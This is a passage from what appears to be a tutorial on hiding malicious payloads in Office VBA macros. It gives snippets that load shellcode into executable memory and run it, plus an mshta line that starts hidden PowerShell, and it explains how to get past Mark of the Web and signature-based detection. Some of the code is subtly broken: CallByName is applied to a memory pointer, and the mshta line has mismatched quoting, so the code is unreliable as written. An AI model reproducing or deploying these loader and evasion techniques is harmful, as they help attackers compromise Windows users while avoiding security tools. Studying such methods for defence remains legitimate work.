           ' Allocate memory for shellcode
          Dim allocMem As LongPtr
          allocMem = VirtualAlloc(0, LenB(shellcode), &H1000 Or &H2000, &H40)
          
          ' Copy shellcode into allocated memory
          CopyMemory ByVal allocMem, ByVal StrPtr(shellcode), LenB(shellcode)
          
          ' Execute the shellcode
          CallByName allocMem, vbNullString, vbMethod
      End Sub
      ```
      - `VirtualAlloc`: Allocates memory for shellcode.
      - `CopyMemory`: Copies the shellcode into the allocated memory.
      - `CallByName`: Executes the shellcode directly from memory.

5. **Leveraging Trusted or Built-in Applications**:
    - Attackers may use trusted applications (e.g., Microsoft Word, Excel) to execute their payloads indirectly. This is known as *Living Off the Land (LOTL)*, where malicious code calls external trusted processes to evade detection.
    - VBA macros can use trusted Windows processes like PowerShell, mshta, or even cmd.exe to execute the malicious payload.
    - **Example**:
      ```vba
      Sub ExecuteTrustedProcess()
          Dim trustedCommand As String
          trustedCommand = "mshta vbscript:Execute(""CreateObject(""WScript.Shell"").Run 'powershell.exe -nop -w hidden',0"")"
          
          ' Execute mshta to run PowerShell payload
          Shell trustedCommand, vbHide
      End Sub
      ```

### Avoiding MOTW and Security Analysis

When files are downloaded from untrusted sources (e.g., the internet), they are tagged with a *Mark of the Web* (MOTW). This security feature can prevent VBA macros from running automatically or require user approval before they execute.

However, files created dynamically on the system (e.g., temporary files or memory-resident files) do **not** receive the MOTW. By encapsulating the payload in temporary files or even executing code directly from memory, attackers avoid the additional scrutiny that files with MOTW might receive.

- **Dynamically Created Files**: If the payload is written to a file on the system dynamically, it will not carry MOTW. This is why attackers often create temporary files (like `.bat`, `.ps1`, or `.vbs`) at runtime.
- **Memory Execution**: Executing code directly in memory (via shellcode injection or PowerShell) avoids file-based detection entirely, bypassing both MOTW and many signature-based detection systems.

### Exploiting Vulnerabilities in the Execution Flow

Payload encapsulation in VBA also exploits the natural execution flow of trusted environments like Microsoft Office, which can run macros if the user allows them. By creating the payload dynamically and obfuscating its components, the attack can evade security products that look for suspicious patterns or known malware signatures in VBA macros.
